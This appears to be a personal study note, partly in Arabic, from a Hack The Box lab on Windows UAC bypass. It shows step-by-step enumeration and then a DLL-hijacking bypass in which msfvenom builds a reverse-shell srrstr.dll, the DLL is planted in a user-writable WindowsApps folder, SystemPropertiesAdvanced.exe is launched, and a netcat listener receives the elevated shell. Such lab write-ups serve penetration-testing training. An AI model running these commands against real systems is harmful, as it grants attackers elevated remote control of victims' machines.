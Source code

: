 # User Account Control

**User Account Control(UAC):** feature in windows which display consent prompt when program run service need high privilege

عباره عن برومبت بتظهر لما بترن حاجه محتاجه صلاحيات عاليه

When UAC is enable all Apps running with user privilege wither admin accept to running with admin privilege

لما الحاجه دي تبقي شغاله البرامج والمهام بتشتغل بصلاحيات مستخدم عادي، إلا لو الأدمن وافق صراحة إنها تشتغل بصلاحيات أدمن. ده بيحمي الأدمن من إنه يعمل تغييرات خطيرة من غير قصد.

**UAC is not Security Boundary**

***

## **Checking Current User**

```powershell
C:\htb> whoami /user

USER INFORMATION
----------------

User Name         SID
================= ==============================================
winlpe-ws03\sarah S-1-5-21-3159276091-2191180989-3781274054-1002
```

## **Confirming Admin Group Membership**

```powershell
C:\htb> net localgroup administrators

Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
Administrator
mrb3n
sarah
The command completed successfully.
```

## **Reviewing User Privileges**

```powershell
C:\htb> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

## **Confirming UAC is Enabled**

check if UAC is enabled if value is 0x1 then UAC is enabled

```powershell
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    EnableLUA    REG_DWORD    0x1
```

## **Checking UAC Level**

The value of `ConsentPromptBehaviorAdmin` is `0x5`, which means the highest UAC level of `Always notify` is enabled. There are fewer UAC bypasses at this highest level.

```powershell
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System
    ConsentPromptBehaviorAdmin    REG_DWORD    0x5
```

## **Checking Windows Version**

UAC bypasses leverage flaws or unintended functionality in different Windows builds

```powershell
PS C:\htb> [environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```

This returns the build version 14393, which using [this](https://en.wikipedia.org/wiki/Windows_10_version_history) page we cross-reference to Windows release `1607`.

![image.png](<../../../../.gitbook/assets/image (1) (1) (1) (1).png>)

> **The** [**UACME**](https://github.com/hfiref0x/UACME) **project maintains a list of UAC bypasses, including information on the affected Windows build number, the technique used, and if Microsoft has issued a security update to fix it**

<figure><img src="../../../../.gitbook/assets/image 1 (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Reviewing Path Variable**

The `WindowsApps` folder is within the user's profile and writable by the user.

```powershell
PS C:\htb> cmd /c echo %PATH%

C:\Windows\system32;
C:\Windows;
C:\Windows\System32\Wbem;
C:\Windows\System32\WindowsPowerShell\v1.0\;
C:\Users\sarah\AppData\Local\Microsoft\WindowsApps;
```

We can potentially bypass UAC in this by using DLL hijacking by placing a malicious `srrstr.dll` DLL to `WindowsApps` folder, which will be loaded in an elevated context.

***

## **Generating Malicious srrstr.dll DLL**

First, let's generate a DLL to execute a reverse shell. and open listener

```bash
irix@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of dll file: 5120 bytes
```

## **Testing Connection**

run dll with privilege user to confirm it’s work

```bash
C:\htb> rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll
```

## **Executing SystemPropertiesAdvanced.exe on Target Host**

Before proceeding, we should ensure that any instances of the `rundll32` process from our previous execution have been terminated.

```bash
C:\htb> tasklist /svc | findstr "rundll32"
rundll32.exe                  6300 N/A
rundll32.exe                  5360 N/A
rundll32.exe                  7044 N/A

C:\htb> taskkill /PID 7044 /F
SUCCESS: The process with PID 7044 has been terminated.

C:\htb> taskkill /PID 6300 /F
SUCCESS: The process with PID 6300 has been terminated.

C:\htb> taskkill /PID 5360 /F
SUCCESS: The process with PID 5360 has been terminated.
```

Now, we can try the 32-bit version of `SystemPropertiesAdvanced.exe` from the target host.

```bash
C:\htb> C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

## **Receiving Connection Back**

Checking back on our listener, we should receive a connection almost instantly.

```bash
irix@htb[/htb]$ nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 50273
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami

whoami
winlpe-ws03\sarah

C:\Windows\system32>whoami /priv

whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name                            Description                                                        State
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Disabled
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Disabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Disabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Disabled
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Disabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Disabled
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Disabled
SeTimeZonePrivilege                       Change the time zone                                               Disabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Disabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Disabled
```

***
